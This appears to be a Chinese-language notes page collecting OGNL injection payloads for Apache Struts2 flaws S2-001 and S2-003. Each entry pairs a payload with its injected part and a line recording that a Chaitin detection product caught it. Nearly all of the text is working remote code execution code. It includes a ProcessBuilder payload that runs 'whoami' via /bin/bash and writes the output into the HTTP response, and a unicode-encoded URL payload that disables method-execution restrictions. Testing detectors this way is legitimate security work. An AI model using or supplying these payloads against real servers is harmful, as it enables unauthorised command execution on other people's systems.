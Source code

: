 

## s2-001

### payload
```js
// 简易无回显
%{@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app/")}

// 重写response实现命令回显
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

### injection
```js
// 简易无回显
%{@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app/")}

// 重写
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"/bin/bash", "-c", "whoami"})).redirectErrorStream(true).start()
```

### result
* 长亭的检测结果与注入漏洞成因一致


## s2-003

### payload
```
http://www.glassy.com/test.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(a)(b)&('\u0040java.lang.Runtime@getRuntime().exec(\'open\u0020/Applications/Notes.app/\')')(a)(b)
```

### injection
```js
// 解码前
('\u0040java.lang.Runtime@getRuntime().exec(\'open\u0020/Applications/Notes.app/\')')(a)(b)
// 解码后
('@java.lang.Runtime@getRuntime().exec(\'open /Applications/Notes.app/\')')(a)(b)
```

### result
* 长亭的检测结果与注入漏洞成因一致，但是去掉限制语句依然可以检测出来
  